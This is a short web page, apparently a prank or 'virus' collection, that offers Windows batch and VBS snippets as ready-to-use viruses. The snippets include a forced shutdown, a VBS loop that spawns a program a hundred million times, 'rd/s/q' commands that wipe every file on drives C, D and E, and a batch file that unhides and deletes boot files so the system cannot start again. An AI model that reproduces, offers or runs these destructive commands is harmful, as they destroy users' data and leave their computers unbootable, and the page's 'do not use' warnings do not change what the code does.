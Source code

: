 ### Virus in (.bat)

Sends a message and shuts down the computer:

@echo off
<br>
msg * your message
<br>
shutdown -c “your message” -s
<hr>
A simple virus that causes the computer to give an error.
<br>
Save as .VBS file:
<br>
Option Explicit
<br>
Dim WSHShell
<br>
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)
<br>
Dim x
<br>
For x = 1 to 100000000
<br>
WSHShell.Run “Tourstart.exe”
<br>
Next
<hr>

Format discs in less than 5 seconds. Only D, E and C:

rd/s/q D:\
<br>
rd/s/q C:\
<br>
rd/s/q E:\
<hr>
And now more dangerous batch files:

Causes the system to crash once then the computer cannot be restarted. 
It removes everything needed to start the system
<br>
DO NOT USE ON YOURSELF

@echo off
<br>
attrib -r -s -h c:\autoexec.bat
<br>
del c:\autoexec.bat
<br>
attrib -r -s -h c:\boot.ini
<br>
del c:\boot.ini
<br>
attrib -r -s -h c:\ntldr
<br>
del c:\ntldr
<br>
attrib -r -s -h c:\windows\win.ini
<br>
del c:\windows\win.ini
<hr>

!!!DO NOT REPEAT ALL THIS ON YOUR PC!!!
